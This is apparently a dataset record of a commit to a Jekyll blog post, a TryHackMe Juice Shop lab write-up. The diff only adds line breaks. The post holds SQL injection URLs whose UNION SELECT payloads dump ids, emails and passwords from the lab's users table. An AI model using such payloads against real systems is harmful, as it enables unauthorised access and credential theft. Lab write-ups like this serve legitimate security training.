

Before and after one commit to nbaertsch/nbaertsch.github.io, a Jekyll site: the page built from _posts/2020-06-09-try-hack-me-juice-shop.md, in a window 1280 px wide. Shown: the part 2054-3974 px from the top of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Juice-Shop

```diff
--- a/_posts/2020-06-09-try-hack-me-juice-shop.md
+++ b/_posts/2020-06-09-try-hack-me-juice-shop.md
@@ -62,7 +62,11 @@
 <br/>
 
 You can perform a sqli here with the syntax
+<br/>
+
 **http://10.10.118.46/rest/product/search?q=test')) union select * from users;--**
+<br/>
+
 <img src="../assets/img/thm/juiceshop/sqli3.png">
 <br/>
 
@@ -70,12 +74,16 @@
 <br/>
 
 **http://10.10.118.46/rest/product/search?q=test')) union select 'id', 'name', 'description', 'price', 'image', 'createdAt', 'updatedAt', 'deletedAt--**
+<br/>
+
 <img src="../assets/img/thm/juiceshop/restapi2.png">
 <br/>
 
 From here we can dump whatever we want from the database presuming we know the table and collumn names.  From the previous test, we at least know that the users table exists.
+<br/>
 
-**http://10.10.118.46/rest/product/search?q=test')) union select 'id', 'name', 'description', 'price', 'image', id, email, password from users--**
+**http://10.10.118.46/rest/product/search?q=test')) union select 'id', 'name', 'description', 'price', 'image', id, email, password from users--**<br/>
+
 <img src="../assets/img/thm/juiceshop/userdump.png">
 <br/>
 
```
